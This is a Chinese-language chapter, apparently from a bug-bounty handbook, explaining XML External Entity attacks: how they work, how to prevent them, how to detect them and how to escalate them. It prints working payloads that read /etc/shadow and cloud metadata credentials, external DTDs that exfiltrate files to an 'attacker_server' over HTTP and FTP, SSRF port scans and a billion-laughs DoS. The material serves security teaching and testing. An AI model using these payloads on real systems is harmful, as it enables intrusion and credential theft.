

# XML 外部实体


*XML 外部实体攻击（**XXEs**）*是非常有趣的漏洞，针对应用程序的 XML 解析器。XXEs 可以是非常有影响的漏洞，因为它们可能导致机密信息泄露、SSRF 攻击和 DoS 攻击。但它们也很难理解和利用。

在本章中，我们将深入探讨 XXEs 的各个方面，帮助你在实际环境中发现它们。我们还将讨论如何利用 XXEs 提取目标系统上的敏感文件、发起 SSRF 攻击和触发 DoS 攻击。

## 机制

*可扩展标记语言（**XML**）*旨在存储和传输数据。这种标记语言允许开发者使用类似 HTML 的树状结构定义和表示任意的数据结构。例如，Web 应用程序通常使用 XML 在安全断言标记语言（SAML）身份验证中传输身份信息。XML 可能如下所示：

```
<saml:AttributeStatement> <saml:Attribute Name="username"> <saml:AttributeValue> vickieli </saml:AttributeValue> </saml:Attribute>
</saml:AttributeStatement>
```

请注意，与 HTML 不同，XML 有用户定义的标签名称，允许你自由地构建 XML 文档结构。XML 格式广泛应用于 Web 应用程序的各种功能中，包括身份验证、文件传输、图像上传，或仅仅用于从客户端到服务器及其返回的数据传输。

XML 文档可以包含*文档类型定义（**DTD**）*，它定义了 XML 文档的结构及其包含的数据。这些 DTD 可以从外部来源加载，也可以在文档本身的`DOCTYPE`标签内声明。例如，下面是一个定义了名为`file`的 XML 实体的 DTD：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file "Hello!">
]>
<example>&file;</example>
```

XML 实体的工作方式类似于编程语言中的变量：每当你使用`&file`语法引用该实体时，XML 文档会将`file`的值加载到该位置。在这种情况下，XML 文档中任何对`&file`的引用都会被`"Hello!"`替代。

XML 文档还可以使用*外部实体*通过 URL 访问本地或远程内容。如果实体的值前面有`SYSTEM`关键字，则该实体为外部实体，其值将从 URL 加载。你可以看到，以下 DTD 声明了一个名为`file`的外部实体，并且`file`的值是本地文件系统上*file:///example.txt*的内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "file:///example.txt">
]>
<example>&file;</example>
```

最后一行加载了 XML 文档中的`file`实体，引用了位于*file:///example.txt*的文本文件内容。

外部实体还可以从互联网加载资源。这个 DTD 声明了一个名为`file`的外部实体，指向*example.com*的主页：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "http://example.com/index.html">
]>
<example>&file;</example>
```

这个功能中隐藏的漏洞是什么？问题在于，如果用户能够控制 XML 实体或外部实体的值，他们可能会泄露内部文件、对内部机器进行端口扫描或发起 DoS 攻击。

许多网站使用较旧或配置不当的 XML 解析器来读取 XML 文档。如果解析器允许用户定义 DTD 或在 DTD 中输入用户内容，并且被配置为解析和评估 DTD，攻击者可以声明自己的外部实体，从而实现恶意结果。

例如，假设一个 Web 应用程序允许用户上传自己的 XML 文档。该应用程序将解析并将文档显示回给用户。恶意用户可以上传类似于此的文档来读取服务器上的 */etc/shadow* 文件，这是 Unix 系统存储用户名及其加密密码的位置：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [1 <!ENTITY file SYSTEM "file:///etc/shadow">
]>
<example>&file;</example>
```

解析此 XML 文件会导致服务器返回 */etc/shadow* 的内容，因为该 XML 文件通过外部实体 1 包含了 */etc/shadow*。

这种攻击被称为 XML 外部实体攻击，或称 *XXEs*。当应用程序接受用户提供的 XML 输入或将用户输入传递给 DTD（文档类型定义），然后由 XML 解析器解析时，应用程序就容易受到 XXE 攻击，而这个 XML 解析器会读取本地系统文件或发送 DTD 中指定的内部或外部请求。

## 预防

防止 XXE 攻击的关键是限制 XML 解析器的能力。首先，由于 DTD 处理是 XXE 攻击的前提，你应尽可能禁用 XML 解析器的 DTD 处理。如果无法完全禁用 DTD，你可以禁用外部实体、参数实体（详见第 254 页的“攻击升级”部分）以及内联 DTD（包含在 XML 文档中的 DTD）。为了防止基于 XXE 的 DoS（拒绝服务攻击），你可以限制 XML 解析器的解析时间和解析深度。你还可以完全禁用实体扩展。

禁用 DTD 处理和配置解析器行为的机制会根据使用的 XML 解析器而有所不同。例如，如果你使用的是默认的 PHP XML 解析器，你需要将 `libxml_disable_entity_loader` 设置为 `TRUE` 来禁用外部实体的使用。有关如何在你的解析器上执行此操作的更多信息，请参考 OWASP Cheat Sheet，访问 [`github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md`](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md)*.*

你可以采取的另一种方式是输入验证。你可以为传入 XML 文档的用户提供值创建白名单，或者清理 XML 文档、头信息或节点中的潜在恶意数据。或者，尽可能使用更简单的数据格式，如 JSON，来代替 XML。

在经典的 XXE 攻击中（如我在“机制”一章第 249 页展示的例子），攻击者通过让应用程序在 HTTP 响应中返回数据来窃取数据。如果服务器接受 XML 输入，但不在 HTTP 响应中返回 XML 文档，攻击者可以使用盲 XXE 来窃取数据。盲 XXE 通过让目标服务器向攻击者的服务器发出外部请求，将窃取的数据传递出去。为了防止盲 XXE，您可以禁止外部网络流量。

最后，您可以定期审查源代码以检测和修复 XXE 漏洞。由于许多 XXE 漏洞是通过应用程序的依赖项引入的，而非自定义源代码，您应确保应用程序或底层操作系统所使用的所有依赖项保持最新。

## 寻找 XXE 漏洞

要查找 XXE，首先从找到容易发生 XXE 的功能开始。这包括应用程序接收直接的 XML 输入的地方，或者接收输入并将其插入到应用程序解析的 XML 文档中的地方。

### 第 1 步：找到 XML 数据输入点

许多应用程序使用 XML 数据在 HTTP 消息中传输信息。为了查找这些端点，您可以打开代理并浏览目标应用程序。然后，通过查找之前提到的树状结构或查找 XML 文档的标志字符串 `"<?xml"`，在 HTTP 消息中找到类似 XML 的文档。

还要留意应用程序中编码过的 XML 数据。有时应用程序会使用 base64 或 URL 编码的 XML 数据以便于传输。您可以通过解码任何看起来可疑的数据块来找到这些 XML 输入点。例如，base64 编码的 XML 代码块通常以 `LD94bWw` 开头，这是 `"<?xml"` 的 base64 编码字符串。

除了在 HTTP 消息中搜索 XML，您还应当查找文件上传功能。这是因为 XML 构成了许多常见文件类型的基础。如果您能够上传这些文件类型之一，您可能能够将 XML 输入通过应用程序的 XML 解析器传递进去。XML 可以写入像 XML、HTML、DOCX、PPTX、XLSX、GPX、PDF、SVG 和 RSS 提要等文档和图像格式中。此外，嵌入在 GIF、PNG 和 JPEG 等图像中的元数据也基于 XML。SOAP Web 服务也是基于 XML 的。我们将在第二十四章详细讨论 SOAP。

除了查找应用程序默认接受 XML 数据的位置外，您还可以尝试强制应用程序解析 XML 数据。有时，某些端点默认接受纯文本或 JSON 输入，但也可以处理 XML 输入。对于接受其他格式输入的端点，您可以将请求的 `Content-Type` 头修改为以下几种之一：

```
Content-Type: text/xml
Content-Type: application/xml
```

然后，尝试在请求体中包含 XML 数据。有时，只需这样做就能让目标应用程序解析您的 XML 输入。

最后，一些应用程序会接收用户提交的数据并将其嵌入到服务器端的 XML 文档中。如果你怀疑这种情况发生了，可以向端点提交一个 XInclude 测试 payload，我将在第 5 步中介绍。

### 第 2 步：测试经典 XXE

一旦你确定端点可以用来提交 XML 数据，就可以开始测试是否具备 XXE 攻击所需的功能。这通常涉及发送一些反复试验的 XXE payload，并观察应用程序的响应。

如果应用程序从解析器返回结果，你可能能够执行经典的 XXE 攻击——也就是说，你可以直接从服务器的响应中读取泄漏的文件。要搜索经典的 XXE，首先检查 XML 实体是否被解析，通过将 XML 实体插入到 XML 输入中，看看是否能正常加载：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "Hello!">
]>
<example>&test;</example>
```

然后，测试 `SYSTEM` 关键字是否可用，方法是尝试加载本地文件：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/hostname">
]>
<example>&test;</example>
```

当 `SYSTEM` 关键字无法使用时，你可以改用 `PUBLIC` 关键字。这个标签要求你在 `PUBLIC` 关键字后提供一个带引号的 ID。解析器会用这个 ID 生成一个替代的 URL，用于实体值。为了我们的目的，你可以直接用一个随机字符串代替：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test PUBLIC "abc" "file:///etc/hostname">
]>
<example>&test;</example>
```

接下来，尝试提取一些常见的系统文件。例如，你可以从文件 */etc/hostname* 和 */etc/passwd* 开始。我喜欢使用 XXE 提取的另一个文件是 *.bash_history*。这个文件通常位于每个用户的主目录下 (*~/.bash_history*)，并包含以前执行的命令列表。通过读取此文件，你通常可以发现一些有价值的信息，比如内部 URL、IP 地址和文件位置。这里提到的常见系统文件或路径可能会受到限制，所以如果你尝试读取的前几个文件没有显示出来，也不要放弃。

### 第 3 步：测试盲 XXE

如果服务器接收 XML 输入，但没有在 HTTP 响应中返回 XML 文档，你可以改为测试盲 XXE。盲 XXE 攻击通常不是通过从服务器的响应中读取文件来窃取数据，而是通过让目标服务器向攻击者的服务器发送请求，将泄漏的信息提取出来。

首先，你需要确保服务器能够进行外部连接，方法是让目标服务器向你的服务器发出请求。你可以按照第十三章中的说明设置回调监听器。设置监听器来发现 XXE 的过程与设置 SSRF 查找是相同的。尝试让外部实体加载你机器上的资源。为了绕过常见的防火墙限制，你应该首先测试 80 和 443 端口，因为目标的防火墙可能不允许其他端口的外部连接：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "http://attacker_server:80/xxe_test.txt">
]>
<example>&test;</example>
```

然后，你可以搜索服务器的访问日志，查找对该特定文件的请求。在这种情况下，你需要查找对 *xxe_test.txt* 文件的 GET 请求。一旦确认服务器能够发起外部请求，你就可以尝试使用接下来的章节中讲解的技术来外泄文件。

### 步骤 4：将 XXE Payload 嵌入到不同的文件类型中

除了测试 HTTP 请求体中的 XXE 外，你还可以尝试将包含 XXE Payload 的文件上传到服务器。文件上传端点和文件解析器通常不像常规端点那样受到 XXE 防护机制的保护。而将 XXE Payload 隐藏在不同的文件类型中意味着，即使应用程序限制了可以上传的文件类型，你也能上传你的 Payload。

本节仅展示了如何将 XXE Payload 嵌入到各种文件类型中的几个示例。你应该能通过搜索互联网找到更多示例。

要在 SVG 图像中嵌入 XXE Payload，你需要先将图像以文本文件的形式打开。以这个蓝色圆形的 SVG 图像为例：

```
<svg width="500" height="500"> <circle cx="50" cy="50" r="40" fill="blue" />
</svg>
```

通过直接将 DTD 添加到文件中并在 SVG 图像中引用外部实体来插入 XXE Payload。然后，你可以将文件保存为 *.svg* 文件并上传到服务器：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY test SYSTEM "file:///etc/shadow">
]>
<svg width="500" height="500"> <circle cx="50" cy="50" r="40" fill="blue" /> <text font-size="16" x="0" y="16">&test;</text>
</svg>
```

微软 Word 文档（*.docx* 文件）、PowerPoint 演示文稿（*.pptx* 文件）和 Excel 工作表（*.xlxs* 文件）都是包含 XML 文件的归档文件，因此你也可以将 XXE Payload 嵌入其中。为此，你应该首先解压文档文件。例如，我在 Mac 上使用 Unarchiver 软件提取文件。你应该能看到几个包含 XML 文件的文件夹（图 15-1）。



图 15-1：当你解压 DOCX 文件时，你会看到几个包含 XML 文件的文件夹。

然后，你可以简单地将 Payload 插入到 */word/document.xml*、*/ppt/presentation.xml* 或 */xl/workbook.xml* 中。最后，将归档文件重新打包成 *.docx*、*.pptx* 或 *.xlxs* 格式。

你可以通过 `cd` 进入解压后的文件夹，并运行命令 `zip -r` `filename.format` `*` 来实现。`zip` 命令行工具用于压缩文件。`-r` 选项告诉 `zip` 递归地压缩目录中的文件，`filename.format` 告诉 `zip` 压缩文件的名称，`*` 告诉 `zip` 压缩当前目录中的所有文件。在这种情况下，你可以运行这些命令来创建一个新的 DOCX 文件：

```
cd example
zip -r new_example.docx *
```

你应该能在当前目录中看到重新打包的文档。

### 步骤 5：测试 XInclude 攻击

有时你无法控制整个 XML 文档或编辑 XML 文档的 DTD。但如果目标应用程序将你的用户输入插入到后台的 XML 文档中，你仍然可以利用 XXE 漏洞。

在这种情况下，你可能能够执行一个 XInclude 攻击。*XInclude*是一种特殊的 XML 功能，它通过一个名为`xi:include`的单一 XML 标签构建一个独立的 XML 文档。如果你能够控制传入 XML 文档的任何未经过滤的数据，可能就能将一个 XInclude 攻击嵌入到该值中。

要测试 XInclude 攻击，可以将以下负载插入到数据输入点，看看请求的文件是否会被返回到响应体中：

```
<example xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/hostname"/>
</example>
```

这段 XML 代码做了两件事。首先，它引用了*http://www.w3.org/2001/XInclude*命名空间，以便我们可以使用`xi:include`元素。接下来，它使用该元素来解析并将*/etc/hostname*文件包含到 XML 文档中。

## 升级攻击

使用 XXE 漏洞能达到的效果取决于 XML 解析器所赋予的权限。通常，你可以使用 XXE 访问和导出系统文件、源代码以及本地机器上的目录列表。你还可以利用 XXE 进行 SSRF 攻击，扫描目标网络的端口、读取网络上的文件，并访问被防火墙隐藏的资源。最后，攻击者有时使用 XXE 发起 DoS 攻击。

### 读取文件

要通过 XXE 漏洞读取本地文件，可以将本地文件的路径放入被解析 XML 文件的 DTD 中。可以使用*file://* URL 方案，后跟机器上文件的路径来访问本地文件。这个负载将使 XML 解析器返回服务器上*/etc/shadow*文件的内容：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "file:///etc/shadow">
]>
<example>&file;</example>
```

### 发起 SSRF

除了获取系统文件外，你还可以利用 XXE 漏洞对本地网络发起 SSRF 攻击。例如，你可以通过将外部实体的 URL 替换为目标机器上的不同端口来发起端口扫描。这类似于第十三章中提到的端口扫描技术，你可以通过分析服务器响应的差异来确定端口的状态：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "http://10.0.0.1:80">
]>
<example>&file;</example>
```

你还可以使用 XXE 发起 SSRF 来获取实例元数据，就像我们在第十三章中讨论过的那样。这个负载将使解析器返回 AWS 元数据：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<example>&file;</example>
```

当尝试查看像这样意外的数据时，你应该通过检查页面源代码（右键点击页面并选择**查看源代码**）或直接查看 HTTP 响应，而不是查看浏览器呈现的 HTML 页面，因为浏览器可能无法正确呈现页面。

当然，你使用 XXE 攻击所能做的不仅限于网络扫描和获取实例元数据。你还可以利用收集到的信息转向内部服务。想了解更多如何利用 SSRF 的思路，可以参考第十三章。

### 使用盲 XXE

有时应用程序不会将 XML 解析结果返回给用户。在这种情况下，你仍然可以通过强迫 XML 解析器在请求的 URL 中包含所需数据，向你控制的服务器发送外部请求，从而提取数据——这就是前面提到的盲目 XXE 攻击。然后，你可以通过监控服务器日志来获取提取的数据。此时，你可能会认为盲目 XXE 的有效载荷看起来像这样：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY file SYSTEM "file:///etc/shadow"> <!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">
]>
<example>&exfiltrate;</example>
```

这个有效载荷旨在通过将文件内容作为 URL 参数传递给攻击者的服务器，从服务器上提取*/etc/shadow*文件。该有效载荷首先定义了一个名为`file`的外部实体，包含本地*/etc/shadow*文件的内容。然后，它通过将该文件的内容作为请求的 URL 参数，向攻击者的服务器发起请求。

然而，这个攻击可能不会成功，因为大多数解析器不允许将外部实体包含在其他外部实体中。解析器会在遇到以下这一行时停止处理 DTD：`<!ENTITY exfiltrate SYSTEM "http://attacker_server/?&file">`。因此，使用盲目 XXE 提取数据比经典 XXE 要复杂一些。

幸运的是，XML DTD 具有一个叫做*参数实体*的特性，我们可以利用它。参数实体是只能在 DTD 的其他地方引用的 XML 实体。它们通过百分号（`%`）字符声明和引用。例如，我之前介绍的盲目 XXE 有效载荷可以改写如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % file SYSTEM "file:///etc/shadow"> 1 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>"> 2 %ent; %exfiltrate;
]>
```

这个 DTD 首先声明了一个名为`file`的参数实体，包含*/etc/shadow*文件的内容 1。然后声明了一个名为`ent`的参数实体，包含另一个参数实体`exfiltrate`的动态声明 2。`&#x25;`是百分号（`%`）的十六进制编码版本。根据目标的不同，十六进制编码有时是需要的，特别是在动态声明中涉及到特殊字符时。`exfiltrate`实体指向攻击者的服务器，并将*/etc/shadow*的内容放在 URL 参数中。最后，DTD 引用`ent`来声明`exfiltrate`实体，再通过引用`exfiltrate`触发外部请求。

但如果你尝试将这个有效载荷上传到目标，可能会发现它不起作用。这是因为，根据 XML 规范，参数实体在内联 DTD（XML 文档中的`DOCTYPE`标签内指定的 DTD）和外部 DTD（在其他地方托管的单独 DTD）中会被不同对待。在内联 DTD 中，参数实体不能在标记中引用，因此这一行将不起作用：`<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>`，而在外部 DTD 中，则没有这样的限制。

要通过盲目 XXE 提取数据，你必须克服这一限制，方法是将外部 DTD 托管在你的服务器上。尝试在你的服务器上托管一个名为*xxe.dtd*的文件：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

然后通过在参数实体中指定 DTD 并引用该实体，让目标解析器解析你的 DTD：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

这样，目标服务器将解析提交的 XML 文件并注意到参数实体引用了一个外部文件。然后，目标服务器将检索并解析该外部 DTD，因此你的载荷将执行，目标将把外泄的数据发送回你的服务器。在这里，我们通过请求攻击者的服务器，以 URL 参数的形式外泄文件*/etc/shadow*的内容。

请注意，在这个攻击中，我们只使用了参数实体，根本没有使用外部实体！如果解析器阻止外部实体或限制实体的引用以防止 XXE 攻击，你也可以使用这种技术。不过，这种策略只能外泄目标文件中的一行数据，因为目标文件中的换行符（`\n`）会中断外发的 URL，甚至可能导致 HTTP 请求失败。

通过盲 XXE 外泄数据的一个更简单的方法是强迫解析器返回描述性错误信息。例如，你可以通过将不存在的文件作为外部实体的值，诱发“文件未找到”错误。你的外部 DTD 可以重新编写如下：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/?%file;'>">
%ent;
%error;
```

请注意，我将*/etc/shadow*的内容包含在了不存在的文件路径的 URL 参数中。然后，你可以将相同的载荷提交到目标，以触发攻击：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

这个恶意的 DTD 将导致解析器将期望的文件内容作为“文件未找到”错误返回：

```
java.io.FileNotFoundException: file:///nonexistent/FILE CONTENTS OF /etc/shadow
```

### 执行拒绝服务攻击

攻击者利用 XML 漏洞的另一种潜在方式是发起拒绝服务攻击（DoS），通过破坏机器的正常运作，使得合法用户无法访问其服务。请注意，绝不要在真实目标上尝试此操作！在真实目标上测试 DoS 攻击可能导致组织的财务损失，并且通常违反公司的漏洞赏金政策：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ELEMENT example ANY> <!ENTITY lol "lol"> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<example>&lol9;</example>
```

这个载荷将实体嵌套在实体中，导致 XML 解析器递归地解除引用实体以获取根实体值`lol`。每个`lol9`实体将展开为 10 个`lol8`值，而这些值将变成 10 个`lol7`，依此类推。最终，一个`lol9`将扩展为十亿个`lol`。这将超载 XML 解析器的内存，可能导致其崩溃。

这种攻击方法也叫做*十亿个笑声攻击*或*XML 炸弹*。这里的例子来自维基百科，你可以在这里阅读更多关于此攻击的信息：[`en.wikipedia.org/wiki/Billion_laughs_attack`](https://en.wikipedia.org/wiki/Billion_laughs_attack)。有趣的是，尽管这个攻击通常被归类为 XXE 攻击，但它并不涉及任何外部实体！

## 更多关于通过 XXE 进行数据外泄的信息

如果解析器已经针对 XXE 攻击进行了加固，并且你试图读取特定格式的文件，XXE 数据外泄会变得更加复杂。但总有更多的方法可以绕过限制！

有时你可能需要外泄包含 XML 特殊字符的文件，如尖括号（`<>`）、引号（`"` 或 `'`）以及和号（`&`）。直接通过 XXE 访问这些文件会破坏 DTD 的语法，影响外泄过程。幸运的是，XML 已经有一个特性来解决这个问题。在 XML 文件中，被 `CDATA`（字符数据）标签包围的字符不会被视为特殊字符。所以，例如，如果你正在外泄一个 XML 文件，你可以按照以下方式重写你的恶意外部 DTD：

```
1 <!ENTITY % file SYSTEM "file:///passwords.xml">2 <!ENTITY % start "<![CDATA[">3 <!ENTITY % end "]]>">4 <!ENTITY % ent "<!ENTITY &#x25; exfiltrate
'http://attacker_server/?%start;%file;%end;'>">
%ent;
%exfiltrate;
```

这个 DTD 首先声明了一个指向你想读取的文件的参数实体 1。它还声明了两个参数实体，分别包含字符串 `"<![CDATA["` 和 `"]]>"` 2 3。然后，它构建了一个不会破坏 DTD 语法的外泄 URL，将文件内容包裹在 `CDATA` 标签中 4。连接的 `exfiltrate` 实体声明将变成以下内容：

```
<!ENTITY % exfiltrate 'http://attacker_server/?<![CDATA[CONTENTS_OF_THE_FILE]]>'>
```

你可以看到我们的有效载荷正在迅速变得复杂。为了防止不小心引入语法错误，你可以使用像 XmlLint ([`xmllint.com/`](https://xmllint.com/)) 这样的工具来确保你的 XML 语法有效。

最后，向目标发送你常用的 XML 有效载荷来执行攻击：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE example [ <!ENTITY % xxe SYSTEM "http://attacker_server/xxe.dtd"> %xxe;
]>
```

另一种外泄包含特殊字符的文件的方法是使用 PHP URL 包装器。如果目标是基于 PHP 的应用程序，PHP 包装器可以让你将所需的数据转换为 base64 格式，这样你就可以用它来读取 XML 文件或甚至是二进制文件：

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker_server/?%file;'>">
%ent;
%exfiltrate;
```

文件传输协议（FTP）也可以用来直接发送数据，同时绕过特殊字符限制。HTTP 有许多特殊字符限制，并且通常会限制 URL 的长度。改用 FTP 是绕过这些限制的一个简单方法。要使用 FTP，你需要在你的机器上运行一个简单的 FTP 服务器，并相应地修改你的恶意 DTD。我使用了 [`github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb`](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb) 上的简单 Ruby 服务器脚本：

```
<!ENTITY % file SYSTEM "file:///etc/shadow">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM1 'ftp://attacker_server:2121/?%file;'>">
%ent;
%exfiltrate;
```

我们在这里使用端口 2121，因为我们使用的 Ruby FTP 服务器运行在 2121 端口，但正确的端口取决于你如何运行服务器 1。

## 找到你的第一个 XXE！

现在你已经了解了 XXE 攻击的基本原理，尝试在真实目标上找到自己的 XXE 漏洞。按照本章中介绍的步骤操作，以最大化成功的机会：

1.  找到可以用来提交 XML 数据的数据输入点。

1.  确定入口点是否可能是经典或盲式 XXE 的候选目标。如果端点在 HTTP 响应中返回解析后的 XML 数据，则可能存在经典 XXE 漏洞。如果端点没有返回结果，它仍然可能受到盲式 XXE 攻击，您应该为测试设置回调监听器。

1.  尝试几个测试负载，看看解析器是否配置不当。在经典 XXE 的情况下，您可以检查解析器是否在处理外部实体。在盲式 XXE 的情况下，您可以使服务器向回调监听器发送请求，看看是否能触发外向交互。

1.  如果 XML 解析器具有使其容易受到 XXE 攻击的功能，尝试导出一个常见的系统文件，例如*/etc/hostname*。

1.  您还可以尝试检索一些更敏感的系统文件，例如*/etc/shadow*或*~/.bash_history*。

1.  如果您无法通过简单的 XXE 负载导出整个文件，请尝试使用其他数据外泄方法。

1.  查看是否可以利用 XXE 发起 SSRF 攻击。

1.  起草您的第一个 XXE 报告并将其发送给公司！
